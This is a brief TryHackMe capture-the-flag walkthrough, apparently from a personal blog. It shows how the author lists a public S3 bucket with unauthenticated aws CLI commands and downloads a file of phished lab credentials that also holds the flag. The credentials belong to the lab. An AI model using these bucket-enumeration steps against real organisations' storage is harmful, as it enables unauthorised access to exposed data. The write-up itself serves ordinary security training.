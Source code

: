 ```yaml
---
title: A Bucket of Phish
categories: [TryHackMe]
tags: [aws]
media_subpath: /images/tryhackme_abucketofphish/
image:
  path: 'https://tryhackme-images.s3.amazonaws.com/room-icons/edb8226745b7607d851bd0258f31227c1cbdad254e1a2d574d97837321fa8e32.618b3fa52f0acc0061fb0172-1747849942798'
---
```


# Summary
[A bucket of phish](https://tryhackme.com/room/hfb1abucketofphish) is a easy room on TryHackMe, where the goal is to find a flag hidden in a public S3 bucket.

# Walkthrough

![NON](file-20250528234045382.png)

Looking at the website, we can sett that it is running using the `aws` service, so we can try to list some public informations on the website, like public buckets

```bash
aws s3 ls s3://darkinjector-phish --no-sign-request

2025-03-17 06:46:17        132 captured-logins-093582390
2025-03-17 06:25:33       2300 index.html
```

We can see two files, the `index` page of the website and a `captured-logins` file, where is possible to find the credentials captured along with the flag for this challenge

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
download: s3://darkinjector-phish/captured-logins-093582390 to ./captured-logins-093582390

cat captured-logins-093582390
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,<REDACTED>
```
